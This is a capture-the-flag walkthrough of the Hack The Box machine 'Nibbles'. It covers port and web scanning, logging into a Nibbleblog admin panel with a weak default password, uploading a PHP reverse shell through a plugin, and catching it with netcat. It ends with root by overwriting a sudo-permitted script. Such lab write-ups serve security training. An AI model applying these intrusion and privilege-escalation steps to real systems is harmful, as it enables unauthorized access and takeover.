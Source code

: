 # Hackthebox Nibbles

First reset the machine.

## Enumeration

First do the standard portscanning of every tcp port on the system.

```
$ sudo nmap -A -T4 -p- 10.10.10.75                                                                                                                              130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-22 10:34 EST
Nmap scan report for 10.10.10.75
Host is up (0.035s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since we have a web server, run Nikto and Gobuster

```
$ nikto -h 10.10.10.75                                                                                                                                            1 ⨯
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.75
+ Target Hostname:    10.10.10.75
+ Target Port:        80
+ Start Time:         2021-12-22 10:35:57 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 5d, size: 5616c3cf7fa77, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7863 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2021-12-22 10:41:35 (GMT-5) (338 seconds)
---------------------------------------------------------------------------
```


Opening up the source code of the simplistic front page reveals a comment

```
!-- /nibbleblog/ directory. Nothing interesting here! -->
```

And with that information it is possible to open up the directory /nibbleblog.

Nibbleblog can be found from github: https://github.com/dignajar/nibbleblog. Both admin.php and install.php exist, and admin.php is protected with very weak username and password. The username admin can be confirmed from install.php, and the password is just nibbles.

## Vulnerability analysis

## Admin panel

First confirm the vulnerable plugin "My image" is activated, which it is. Upload standard php reverse shell through the admin panel, and it ends up as a file nibbleblog/content/private/plugins/my_image/image.php. 

Open up listener and call the image.php

```
$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.75] 50780
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:27:17 up 55 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler


$ pwd
/home/nibbler
$ ls -al
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Dec 23 11:32 user.txt
```

Grab the flag, and continue to privilege escalation.

## Privile escalation

First thing to do is to look at the personal.zip file

```
$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

The script is for server monitoring. There is a high likelihood we will bump in to it soon.

Indeed, our user can execute the script as an admin.

```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Upgrade the shell and get going.

```
$ python3 -c "import pty; pty.spawn('/bin/bash');"
nibbler@Nibbles:/home/nibbler/personal/stuff$
```

Next confirm we really can run the files as root, and capture the flag first by listing the root directory and next capturing the flag

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "#! /bin/bash" > monitor.sh
<er/personal/stuff$ echo "#! /bin/bash" > monitor.sh                         
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "ls -al /root" >> monitor.sh
<er/personal/stuff$ echo "ls -al /root" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo -u root /home/nibbler/personal/stuff/monitor.sh     
total 32
drwx------  4 root root 4096 Dec 15  2020 .
drwxr-xr-x 23 root root 4096 Dec 15  2020 ..
-rw-------  1 root root    0 Dec 29  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Dec 10  2017 .cache
drwxr-xr-x  2 root root 4096 Dec 10  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root 1091 Dec 15  2020 .viminfo
-r--------  1 root root   33 Dec 23 11:32 root.txt
ibbler@Nibbles:/home/nibbler/personal/stuff$ echo "#! /bin/bash" > monitor.sh
<er/personal/stuff$ echo "#! /bin/bash" > monitor.sh                         
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "cat /root/root.txt" > monitor.sh
<er/personal/stuff$ echo "cat /root/root.txt" > monitor.sh                   
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo -u root /home/nibbler/personal/stuff/monitor.sh     
cc88b63...
```

Note the full directory path must be given to be able to run the script as root without the password.

Even better way by achieving root shell

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "sh" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
# whoami
whoami
root
#
